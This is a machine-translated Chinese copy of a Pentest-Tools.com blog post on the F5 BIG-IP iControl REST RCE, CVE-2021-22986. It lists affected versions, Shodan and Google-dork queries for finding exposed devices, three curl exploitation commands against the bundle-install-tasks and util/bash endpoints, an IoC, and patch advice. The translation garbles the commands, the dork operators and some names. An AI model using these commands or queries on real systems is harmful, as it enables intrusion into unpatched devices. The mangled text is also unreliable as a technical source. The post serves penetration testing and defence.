



# 如何和 Pentest-Tools.com 一起检测 CVE-2021-22986 RCE | Pentest-Tools.com

> 原文：<https://pentest-tools.com/blog/detect-cve-2021-22986-rce>

作为一名测试者，当你看到一个重大的关键漏洞在未打补丁的系统中持续数月(如 [Log4Shell](/blog/log4shell-scanner-detect-cve-2021-44228) )，你有责任帮助其他人了解其严重性以及他们如何修复它。这正是这篇文章存在的原因。

我们看到了许多易受攻击和未打补丁的系统，即使安全漏洞是在 2021 年 3 月左右发现的，所以我们不能袖手旁观。

大约在 2021 年 3 月被发现， [CVE-2021-22986](https://nvd.nist.gov/vuln/detail/CVE-2021-22986) 仍然为许多易受攻击的系统中的攻击者敞开大门。因此，本指南专门介绍如何搜索易受攻击的主机，如何利用漏洞，以及缓解漏洞的解决方案。

## **什么是 F5 iControl？**

F5 iControl 是一款基于 REST 的 API，允许您对自己管理的 [BIG-IP 设备](/blog/big-ip-tmui-rce)执行多项操作，例如更改系统配置。

(来源: [F5 iControl 白皮书](https://www.f5.com/pdf/white-papers/icontrol-wp.pdf))

## 什么是 CVE-2021-22986？

我们来谈谈漏洞的来龙去脉。它于 2021 年早春被发现，尽管几个月过去了，但许多设备仍然容易受到攻击，许多威胁行为者正在积极利用这种漏洞。

但是是什么让它对恶意黑客如此有吸引力呢？

该漏洞的 CVSS 得分为 9.8，被归类为“严重”，因为您可以通过[远程命令执行](/blog/?s=rce)实现**整个设备的危害**。更糟糕的是，你可以做所有这些未经认证的**。此外，设备模式下的 BIG-IP 设备也容易受到攻击。**

**更糟糕的是，还观察到一个 [Mirai 未来组合](https://en.wikipedia.org/wiki/Mirai_(malware))变种一直在积极利用这个漏洞。**

> ***我们现在观察到来自[https://t.co/ZDTVwtdYlq](https://t.co/ZDTVwtdYlq)的 Mirai 未来组合变种试图利用 CVE-2021-22986、F5 BIG-IP & BIG-IQ 产品中未经认证的 RCE 和 CVE-2020-28188。新活动的
> 
> IOCs 可在:[https://t.co/bc0IySEAEk](https://t.co/bc0IySEAEk)[pic.twitter.com/ZsUqxq60XO](https://t.co/ZsUqxq60XO)***
> 
> **—Unit 42(@ Unit 42 _ Intel)[2021 年 3 月 19 日](https://twitter.com/Unit42_Intel/status/1373017186818781190?ref_src=twsrc%5Etfw)**

## ****易受攻击的产品和版本****

**以下是 CVE-2021-22986 RCE 漏洞的受影响产品及其版本的列表，因此您可以检查您的技术堆栈中是否有此漏洞:**

*   **F5 BIG-IP 设备(LTM、AAM、高级 WAF、AFM、Analytics、APM、ASM、DDHD、DNS、FPS、GTM、链路控制器、PEM、SSLO):**

    *   **12.1.0-12.1.5.2**

    *   **13.1.0-13.1.3.5**

    *   **14.1.0-14.1.3.1**

    *   **15.1.0-15.1.2**

    *   **16.0.0-16.0.1**

**现在您已经了解了所需的基本细节，让我们看看如何使用 Pentest-Tools.com 来检测和利用它。**

## ****如何找到可能受到 CVE-2021-22986 影响的系统****

**我将展示三种主要方法来查找可能受 CVE-2021-22986 漏洞影响的主机和设备。**

### ****使用 Shodan****

**在撰写本文时，至少有 6000 台设备是通过 Shodan 找到的。**

****

**您可以使用以下查询来发现易受此未经验证的 RCE 漏洞攻击的 F5 BIG-IP 潜在设备:**

*****http . title:" BIG-IP&reg；*-重定向"****

### ****使用谷歌呆子****

**F5 BIG-IP 设备使用基于网络的界面，因此您可以使用 [Google Dorks](https://pentest-tools.com/information-gathering/google-hacking) 通过以下搜索查询来发现 F5 主机:**

***inurl:my.logout.php3？***

**inurl:"/我的。政策“big-IP**

***intitle:“BIG-IP 注销页面”***

***intext:“感谢您使用 BIG-IP。”***

***英特尔文本:“该产品已获得 F5 Networks 的许可。”***

***英特尔公司:“F5 网络公司。版权所有"***

****

### ****使用 PublicWWW****

**[PublicWWW](https://publicwww.com/) 是一个搜索引擎，您可以使用它根据源代码内容、回复标题、cookies 和使用的技术来搜索网站。您可以使用我刚才提到的相同的呆子，也可以使用一些更多的细节，如:**

***"my.logout.php3"***

***"/my.policy"***

***“BIG-IP 注销页面”***

***“感谢您使用 BIG-IP。”***

***“该产品已获得 F5 Networks 的许可。”***

***“F5 网络。版权所有"***

***"Set-Cookie: F5_ST"***

**通过书签[https://publicwww.com/](https://publicwww.com/)将此工具添加到您的工作流程中**

## ****如何在道德黑客活动中利用 CVE-2021-22986****

**为了利用 CVE-20212-22986，您必须遵循以下步骤:**

1.  **curl-ksu admin:https://<host>/mgmt/TM/access/bundle-install-tasks-d ' { " file path ":"<command></command>" } '</host>**

2.  **curl-ksu admin:https://<host>/mgmt/TM/access/bundle-install-tasks-d ' { " file path ":"<command></command>" } '</host>**

3.  **curl-su admin:-H " Content-Type:application/JSON " http://<host>:8100/mgmt/TM/util/bash-d ' { " command ":" run "，" utilCmdArgs":"-c <command></command>"} '</host>**

**如果您想尝试另一种更快的利用策略，请继续阅读并观看下面的演示。**

## ****CVE 的已知危害指标(IoCs)2021-22986****

**[按 F5](https://support.f5.com/csp/article/K03009991) ，你应该(手动)在“/var/log/restjavad*中查找以下条目。日志”文件:**

***“X-F5-Auth-Token 没有值”***

**在你的目标上验证 CVE-2021-22986 可被利用的最快和最省事的方法是使用 [**狙击自动利用者**](https://pentest-tools.com/exploit-helpers/sniper) ，Pentest-Tools.com 上的自动攻击者。**

**该工具自动模拟现实世界的利用和攻击技术:**

*   **它**扫描打开的端口**，收集关于协议、服务类型和版本的数据**

*   **它**采集 web 服务的指纹**以确定运行的 web 应用程序的类型及其背后的技术栈**

*   **它**寻找兼容的漏洞****

*   **它**检查目标是否确实易受攻击**——在此阶段不提取任何数据**

*   **一旦它获得 RCE，Sniper 自动**提取所有的人工制品(**当前和本地用户，系统信息，运行进程，网络配置等。)，这将在输出报告中得到**

*   **它**清除**，所以目标保持不变。**

**正如你从演示中看到的，*这一切都在一分钟内发生*与手动开发相比，这是一个巨大的收益，尤其是当你在 pentest 中时间紧迫时(而当*没有发生*？).**

 **<template x-if="showVideo"></template>

如果您需要一份包含 F5 iControl REST 未认证 RCE 的调查结果的报告，您可以使用 Pentest-Tools.com[**网络漏洞扫描器**](https://pentest-tools.com/network-vulnerability-scanning/network-security-scanner-online-openvas) 。在您的目标上运行它，获得一份完整的、随时可用的报告，其中包含您可以与同事和客户分享的丰富细节:

## **如何减轻 CVE-2021-22986**

首先，建议为您的设备安装一个补丁版本:

*   BIG-IP 16.0.1.1+版本

*   大 IP 15.1.2.1+

*   大 IP 14.1.4+

*   大 IP 13.1.3.6+

*   大 IP 12.1.5.3+

*   大智商 7.1.0.3 以上

*   大智商 7.0.0.2 以上

如果出于某种原因，您无法应用此补丁，那么您**应该限制除管理员地址之外的任何 IP 地址对 iControl REST 接口**的访问。

## **齐心协力应对滑坡**

不断出现的漏洞让安全专家处于救火模式，这真的很难跟上。这就是为什么在 Pentest-Tools.com，我们相信通过分享专业知识、方法和见解来互相帮助，同时以一种真正有所作为的方式支持合作。这不是一件容易的工作，但这是我们的工作，我们致力于尽我们所能做到最好。

如果你需要一个具体的指导，来帮助你在你的职位上取得成功，并在工作中产生更大的影响——以及在行业中——请告诉我们！**